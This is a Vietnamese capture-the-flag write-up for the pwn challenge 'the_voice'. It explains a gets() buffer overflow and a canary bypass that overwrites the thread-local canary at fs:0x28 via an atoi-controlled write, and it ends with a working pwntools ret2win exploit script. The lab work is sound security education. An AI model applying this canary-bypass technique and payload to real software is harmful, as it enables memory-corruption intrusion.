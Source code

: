 # Challenge: the_voice
## Description
![image](https://github.com/sangnguyenthien/CTF/assets/89742084/dc760017-74d6-4bc8-aedb-587cb47953b9)
## Source
> the_voice

> the_voice.c

> Dockerfile

## Solution
Đầu tiên, tôi sẽ thử kiểm tra file thực thi bằng checksec
![image](https://github.com/sangnguyenthien/CTF/assets/89742084/69c6389e-ee54-436a-b807-a49b80e8767a)
Ok, với "No PIE" (Position Independent Executable) có nghĩa là mỗi khi bạn chạy file thì nó sẽ được tải vào địa chỉ cố định trong bộ nhớ.

C code:

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/89f3b087-47e8-40da-9680-016cecd43387)

Pseudocode sinh từ IDA Pro:

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/27a04fc3-60e5-49bc-8bf9-995d593e8703)
![image](https://github.com/sangnguyenthien/CTF/assets/89742084/d1358de2-c2c8-4342-8d32-e01a425b34be)

Chúng ta có thể thấy rằng có lỗi buffer overflow ở gets(nptr) (IDA main+11) cho phép chúng ta nhập input với độ dài tùy ý.

Nhưng vì chương trình được bảo vệ bởi Stack canary

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/82324c16-0410-4454-8206-caab24e5bc44)

Nên nếu mục đích của chúng ta là ghi đè bằng để sửa saved RIP (return address) thành địa chỉ của hàm give_flag() thì sẽ không được vì khi canary bị thay đổi dù chỉ 1 byte thì chương trình cũng sẽ toang và không thực hiện hàm give_flag() cho chúng ta.

Vậy làm thế nào?.
Chúng ta để ý ở IDA main+11 và main+12
```
  gets(nptr);
  __writefsqword(8 * atoi(nptr) - 80, 0x27CFuLL);
```
Dưới đây là assembly code của 2 câu lệnh này:
![image](https://github.com/sangnguyenthien/CTF/assets/89742084/62a63b7a-e632-4ee1-ac59-ae7451d754fd)
Đại khái là nó sẽ cho user input, xong nó sử dụng atoi() để chuyển cái string đấy thành số nguyên (số nguyên trả về được lưu trong thanh ghi eax). Ví dụ "11" -> 11.

Tiếp theo, câu lệnh ở địa chỉ 0x4012EB sẽ thực hiện ghi quadword 0x27CF vào địa chỉ: fsbase+0x0FFFFFFFFFFFFFFB0+rax*8
Chúng ta có thể điều chỉnh rax để ghi vào 1 chỗ nào đấy trên FS Segment... Canary được lưu ở...
![image](https://github.com/sangnguyenthien/CTF/assets/89742084/d61d032c-bedb-4746-abff-2dbafcaf0354)

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/ce2de1c0-5239-478b-8432-74b996a43bf0)

BINGO, canary của chúng ta được lưu ở fsbase+0x28. Thì nếu như chúng ta điều chỉnh input (nôm na là rax) để ghi được quadword 0x27CF vào địa chỉ fsbase+0x28, sau đó chúng ta lợi dụng buffer overflow để ghi đè canary trong stack của hàm main thành quadword 0x27CF. Trước khi trả về (return) thì nó sẽ kiểm tra xem 2 giá trị trên fsbase+0x28 và canary trên stack của main có giống nhau không (giống nhau và bằng 0x27CF) -> Chúng ta đã bypass được canary.
Phương trình cần giải của chúng ta:
> fsbase+0x28 = fsbase+0x0FFFFFFFFFFFFFFB0+rax*8

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/1f205eb2-5179-41ea-99e7-94ee0f35408a)

Suy ra, rax sẽ là 15. Việc còn lại là viết payload để ret2win ^^


Giá trị canary (fs:0x28) trước khi bị ghi đè: 0xdcf73fe8cdce6500
![image](https://github.com/sangnguyenthien/CTF/assets/89742084/4518911d-5278-431e-92a6-0624efc22a18)


Sau khi bị ghi đè: 0x00..27cf

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/fb2afec6-fe12-46a7-948b-f35ae2fe0f2e)


Tất nhiên là phải thay đổi canary trên stack (ở vị trí rbp-0x8) và return address thành địa chỉ của give_flag()

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/20c13bfe-6e69-4465-8562-26157afed777)


Code giải:
```python
from pwn import *

#pwn/the_voice

#fsbase + x*8-0x50 = fsbase + 0x28

#p = remote("challs.umdctf.io", 31192)
p = process("./the_voice")
input()
payload = b"15 "
payload += b"A"*21
payload += p64(0x27CF)
payload += p64(0)
payload += p64(0x4011F6)
write("payload", payload)

p.sendlineafter(b"command me to give it to you.", payload)
p.interactive()
```
